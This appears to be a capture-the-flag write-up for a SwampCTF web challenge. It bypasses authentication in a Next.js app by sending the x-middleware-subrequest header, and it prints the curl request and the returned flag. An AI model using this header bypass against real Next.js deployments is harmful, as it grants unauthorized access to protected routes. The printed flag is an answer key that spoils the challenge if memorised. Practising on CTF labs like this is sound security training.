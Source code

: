 * Description 
The Gator research institute asked me to develop an app for them. I've been hearing a lot of hullabaloo recently
about Next.js, so I decide to make my app inspired by their code. Can you see if you can access the flag?
Authentication hasn't been implemented yet, so you'll need to find a way around it.

http://chals.swampctf.com:43611

* Solution

[[file:clipboard-20250404T164433.png]]

This hint us that we may need to be a server-side middleware to access the admin panel. And there is a HTTP header
~x-middleware-subrequest~ which can be exploited.

[[file:clipboard-20250404T171149.png]]

In this request sequences, we get this api endpoint which fetch ~/flag~ backend

#+begin_src sh
> curl 'http://chals.swampctf.com:43611/api/protected/flag' -H 'x-middleware-subrequest: 1'
{"message":"Congratulations, you found the secret middleware bypass!","flag":"swampCTF{b3w4r3_th3_m1ddl3w4r3}"}
#+end_src

[[file:clipboard-20250404T170957.png]]
